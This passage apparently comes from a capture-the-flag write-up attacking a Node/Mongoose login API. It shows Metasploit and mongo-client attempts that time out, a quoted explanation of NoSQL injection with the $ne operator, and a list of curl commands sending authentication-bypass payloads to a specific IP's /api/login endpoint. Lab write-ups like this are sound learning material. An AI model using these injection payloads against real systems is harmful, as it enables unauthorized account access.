 Well, it is filtered, so I guess it is behind a firewall, but I'm taking my chances with Metasploit:

```
msf6 auxiliary(scanner/mongodb/mongodb_login) > run

[*] 206.189.121.131:27017 - Scanning IP: 206.189.121.131
[-] 206.189.121.131:27017 - Unable to connect: The connection timed out (206.189.121.131:27017).
[*] 206.189.121.131:27017 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

Yeah, no success. Also, with `mongo` client

```
$ ./mongo 206.189.121.131

MongoDB shell version v4.4.5
connecting to: mongodb://206.189.121.131:27017/test?compressors=disabled&gssapiServiceName=mongodb
Error: couldn't connect to server 206.189.121.131:27017, connection attempt failed: SocketException: Error connecting to 206.189.121.131:27017 :: caused by :: Connection timed out :
connect@src/mongo/shell/mongo.js:374:17
@(connect):2:6
exception: connect failed
exiting with code 1
```

So going back to the `mongoose` and API we've got here. When searching for vulnerables in `Schema.find` I've come across some interesting readings (check _Additional readings_ section) that telling this, specifically:

```
To perform a successful MongoDB injection, it is enough if the attacker supplies the following malicious input data as a POST request:

username[$eq]=admin&password[$ne]=1

The [$ne] query operator means not equal. Therefore, the resulting query will find the first record in which the username is admin and the password is not 1. If this code is used for authentication, the attacker is logged in as the admin user.
```


But I don't know the username, so I should aim for the following request: `username[$eq]=admin&password[$ne]=`. I did a test login on the web browser to see in what form POST request is made. `application/x-www-form-urlencoded` it is.

### NoSQL Injection - `$ne` operator

I've tried many variations:

```
curl -H "application/x-www-form-urlencoded" -d "username=admin&password=admin" -v 206.189.121.131:31978/api/login
curl -H "application/x-www-form-urlencoded" -d "username={'$gt': ''}&password={'$gt': ''}" -v 206.189.121.131:31978/api/login
curl -H "application/x-www-form-urlencoded" -d "username[$gt]=&password[$gt]=" -v 206.189.121.131:31978/api/login
curl -H "application/x-www-form-urlencoded;charset=UTF-8" -d "username[$gt]=&password[$gt]=" -v 206.189.121.131:31978/api/login
curl -H "application/x-www-form-urlencoded" -d "username[$ne]=&password[$ne]=" -v 206.189.121.131:31978/api/login
curl -H "Content-Type: application/x-www-form-urlencoded" -H "Accept: application/json" -d "username[$ne]=&password[$ne]=" -v 206.189.121.131:31978/api/login
curl -H "application/x-www-form-urlencoded" -d "username[$eq]=admin&password[$ne]=foo" -v 206.189.121.131:31978/api/login
curl -H "application/x-www-form-urlencoded;charset=UTF-8" -d "username[$ne]=&password[$ne]=" -v 206.189.121.131:31978/api/login
```